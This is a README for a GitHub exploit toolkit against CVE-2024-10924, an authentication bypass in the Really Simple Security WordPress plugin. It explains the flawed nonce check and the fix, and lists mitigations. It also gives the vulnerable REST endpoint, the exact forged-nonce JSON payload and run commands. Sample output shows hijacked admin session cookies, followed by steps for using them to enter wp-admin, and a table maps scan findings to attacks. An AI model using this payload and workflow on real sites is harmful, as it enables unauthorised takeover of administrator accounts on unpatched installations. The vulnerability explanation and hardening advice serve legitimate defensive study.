



# CVE-2024-10924 — WordPress Auth Bypass Toolkit

> **Really Simple Security Plugin | Authentication Bypass via 2FA REST API**  
> CVSS Score: **9.8 CRITICAL** | Affects: 4,000,000+ WordPress sites

```
  ██████╗██╗   ██╗███████╗    ██████╗  ██████╗ ██████╗ ██╗  ██╗
 ██╔════╝██║   ██║██╔════╝    ╚════██╗██╔═████╗╚════██╗██║  ██║
 ██║     ██║   ██║█████╗█████╗ █████╔╝██║██╔██║ █████╔╝███████║
 ██║     ╚██╗ ██╔╝██╔══╝╚════╝██╔═══╝ ████╔╝██║██╔═══╝ ╚════██║
 ╚██████╗ ╚████╔╝ ███████╗    ███████╗╚██████╔╝███████╗      ██║
  ╚═════╝  ╚═══╝  ╚══════╝    ╚══════╝ ╚═════╝ ╚══════╝      ╚═╝
```

> ⚠️ **For authorized penetration testing and educational purposes only.**  
> Unauthorized use against systems you do not own is illegal.

---

## 📋 Table of Contents

- [Overview](#overview)
- [Vulnerability Explained](#vulnerability-explained)
- [Tools](#tools)
- [Usage](#usage)
- [How the Exploit Works](#how-the-exploit-works)
- [WPScan Findings Reference](#wpscan-findings-reference)
- [Mitigation](#mitigation)

---

## Overview

In November 2024, security researcher **István Márton** from Wordfence discovered a critical authentication bypass vulnerability in the **Really Simple Security** plugin for WordPress (formerly Really Simple SSL). The flaw was assigned **CVE-2024-10924** and rated **9.8 CRITICAL**.

The vulnerability allows an **unauthenticated attacker** to log in as **any user** on the target site — including administrators — without knowing their password. All that's needed is the target user's WordPress user ID, which is publicly available via the REST API.

| Property | Detail |
|---|---|
| **CVE ID** | CVE-2024-10924 |
| **CVSS Score** | 9.8 CRITICAL |
| **Plugin** | Really Simple Security (Free, Pro, Pro Multisite) |
| **Affected Versions** | 9.0.0 – 9.1.1.1 |
| **Attack Vector** | Network (unauthenticated) |
| **Discovered By** | István Márton, Wordfence |
| **Published** | November 2024 |
| **Patched In** | 9.1.2 |

---

## Vulnerability Explained

The vulnerability lives inside the `check_login_and_get_user()` function used by the plugin's Two-Factor Authentication REST API endpoints.

**The Buggy Logic (simplified):**

```php
function check_login_and_get_user($user_id, $login_nonce) {
    
    $user = get_user_by('id', $user_id);

    if (!wp_verify_nonce($login_nonce)) {
        // ❌ Error detected but never acted upon!
        // Missing: return new WP_Error(...)
    }

    return $user; // Returns the user object regardless!
}
```

The function checks whether the `login_nonce` is valid — but **forgets to stop execution** if validation fails. So even with a completely fake nonce (`"1"`), the function returns a valid user object and grants an authenticated session.

**The Fix (one line):**

```php
if (!wp_verify_nonce($login_nonce)) {
    return new WP_Error('invalid_nonce', 'Invalid login nonce'); // ✅ Now it stops
}
```

---

## Tools

This repository contains two Python tools. Both use **zero external dependencies** — pure Python stdlib only.

### 🔍 `wp_cookie-bypass.py` — Scanner

Checks whether a target WordPress site is vulnerable to CVE-2024-10924.

**What it does:**
- Detects WordPress presence
- Checks `/wp-login.php` and `/wp-admin/` accessibility
- Discovers the REST API endpoint (pretty URLs and query-string fallback)
- Checks for the `reallysimplessl` plugin namespace
- Enumerates WordPress users via the REST API
- Attempts the authentication bypass for each discovered user
- Reports clearly: **VULNERABLE** or **NOT VULNERABLE**

---

### 💥 `wp_cookie-exploit.py` — Exploiter

Fully exploits CVE-2024-10924 and returns the user ID, username, and session cookies for every bypassed account.

**What it does:**
- Auto-detects REST API base
- Confirms plugin presence
- Enumerates users (with brute-force fallback for IDs 1–5)
- Fires the exploit payload for each user
- Returns `user ID`, `username`, and full `session cookies` on success
- Tells you exactly how to use the cookies to access wp-admin

---

## Usage





No installation required — just Python 3.

```bash
# Scanner — check if target is vulnerable
python3 wp_cookie-bypass.py http://target.com

# Exploiter — bypass auth and get cookies
python3 wp_cookie-exploit.py http://target.com
```

**Example output (Exploiter):**

```
  ╔═══════════════════════════════════════════════════════╗
  ║         CVE-2024-10924  —  Auth Bypass Exploiter      ║
  ║         Really Simple Security Plugin  |  WordPress   ║
  ╚═══════════════════════════════════════════════════════╝

  Target : http://vulnerable.thm:8080
  ─────────────────────────────────────────────────────

  [*] Detecting REST API...
  [✓] REST API → http://vulnerable.thm:8080/index.php?rest_route=

  [*] Checking for Really Simple Security plugin...
  [✓] Plugin detected — target may be vulnerable!

  [*] Enumerating WordPress users...
  [✓] User found → admin  (ID: 1)

  ─────────────────────────────────────────────────────
    LAUNCHING EXPLOIT — CVE-2024-10924
  ─────────────────────────────────────────────────────

  [*] Targeting → admin (ID: 1)
  [✓] BYPASS SUCCESSFUL!
      User   : admin
      ID     : 1
      Cookie : wordpress_eb51341d... = admin%7C17744422...
      Cookie : wordpress_logged_in_eb51341d... = admin%7C17744422...

  ═════════════════════════════════════════════════════
    ✓ EXPLOITED — 1 account(s) compromised
    → admin (ID: 1)

    Paste cookies into browser → DevTools → Application → Cookies
    Then navigate to http://vulnerable.thm:8080/wp-admin/
  ═════════════════════════════════════════════════════
```

**Using the cookies in your browser:**

1. Open browser DevTools (`F12`)
2. Go to **Application** → **Cookies** → select the target domain
3. Paste both cookie values (`wordpress_*` and `wordpress_logged_in_*`)
4. Navigate to `/wp-admin/` — you're in!

---

## How the Exploit Works

The vulnerable REST API endpoint is:

```
POST /wp-json/reallysimplessl/v1/two_fa/skip_onboarding
```

(Or via query string if pretty permalinks are off:)

```
POST /index.php?rest_route=/reallysimplessl/v1/two_fa/skip_onboarding
```

The exploit sends this payload with no prior authentication:

```json
{
  "user_id": 1,
  "login_nonce": "1",
  "redirect_to": "/wp-admin/"
}
```

Due to the missing error handling in `check_login_and_get_user()`, the server responds with **HTTP 200** and sets fully authenticated WordPress session cookies — without ever verifying the nonce or requiring a password.

The endpoint accepts **3 parameters**: `user_id`, `login_nonce`, and `redirect_to`.

---

## WPScan Findings Reference

When scanning a WordPress target with WPScan, here are the key findings to look out for and what to do with each:

| Finding | Risk | Action |
|---|---|---|
| `xmlrpc.php` accessible | 🔴 High | Brute-force logins, pingback abuse, SSRF |
| `readme.html` exposed | 🟡 Medium | Reveals WP version → search CVEs |
| Upload directory listing enabled | 🔴 High | Browse for sensitive/uploaded files |
| WordPress version outdated | 🔴 High | Cross-reference against known CVEs |
| User enumeration successful | 🔴 High | Use usernames for password or bypass attacks |
| Server version header exposed | 🟡 Medium | Apache/Nginx version fingerprinting |
| `wp-cron.php` accessible | 🟠 Medium | Potential DoS via repeated triggering |

In our TryHackMe session, WPScan discovered:
- WordPress **6.7.1** (flagged as insecure)
- Apache **2.4.41** on Ubuntu
- `xmlrpc.php` accessible
- `readme.html` accessible
- Upload directory listing enabled
- Users: **admin** and **tesla**

---

## Mitigation

**If you manage a WordPress site:**

1. **Update** the Really Simple Security plugin to **version 9.1.2 or later** immediately
2. **Disable 2FA** temporarily if you cannot update right now (the vulnerability requires 2FA to be enabled)
3. Add a **WAF rule** to block unauthenticated POST requests to `/reallysimplessl/v1/two_fa/` endpoints
4. Audit your installed plugins regularly against known CVE databases

**General WordPress hardening:**
- Disable `xmlrpc.php` if not needed
- Remove `readme.html`
- Disable directory listing in Apache/Nginx config
- Block user enumeration via the REST API
- Keep WordPress core and all plugins up to date

---

## Disclaimer

This toolkit was developed for the ** CVE-2024-10924 ** for educational purposes. Only use these tools against systems you own or have explicit written permission to test. The authors are not responsible for any misuse.

---

**Made by MrDestroyer - ZIM**  
YouTube: [Study_Hard69](https://www.youtube.com/Study_Hard69)  
TryHackMe: [/p/MohammadZim](https://tryhackme.com/p/MohammadZim)